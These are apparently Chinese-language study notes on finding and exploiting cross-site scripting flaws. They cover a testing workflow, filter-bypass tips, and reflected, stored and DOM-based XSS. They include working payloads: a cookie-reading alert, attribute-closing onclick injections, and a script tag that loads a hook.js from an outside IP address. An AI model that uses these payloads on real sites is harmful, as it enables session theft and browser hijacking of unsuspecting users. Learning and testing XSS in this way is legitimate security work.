 # xss漏洞利用

## 渊源

xss漏洞主要是由于程序对内容过滤不严，致使可以输入一些恶意js代码，被程序执行

## 测试

跨站脚本漏洞测试流程

①在目标站点上找到输入点，比如查询接口，留言板等；

②输入一组“特殊字符＋唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理；

③通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）；

④提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XSS漏洞；

TIPS:

1．一般查询接口容易出现反射型XSS，留言板容易出现存储型XSS；

2．由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行（浏览器）；3．通过变化不同的script，尝试绕过后台过滤机制；

## 反射性xss

一次性的，一般出现在查询页面

```javascript
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://172.16.0.101:3000/hook.js></script>  #引用外部的xss
```

此处存在一个get型xss,即以url的形式提交,也就是可以通过url的方式触发该漏洞

ctrl + f快速搜索代码

## 储存型xss

存储型xss会永久的停留在目标上，之间成为对方源码的一部分，通常是以post表单的形式传输。

## dom型xss

一种访问html的标准编程接口。

dom1

构造语句< a href='"+str+"'>what do you see?</ a > 

此处需要重新构造闭环，修改为< a href='#' onclick="alert("kkkkk")"> '>what do you see? < /a>

#' onclick="alert(1111)"> 弹窗

此处为低危漏洞。

dom2

#' onclick="alert(123456)"> 类似
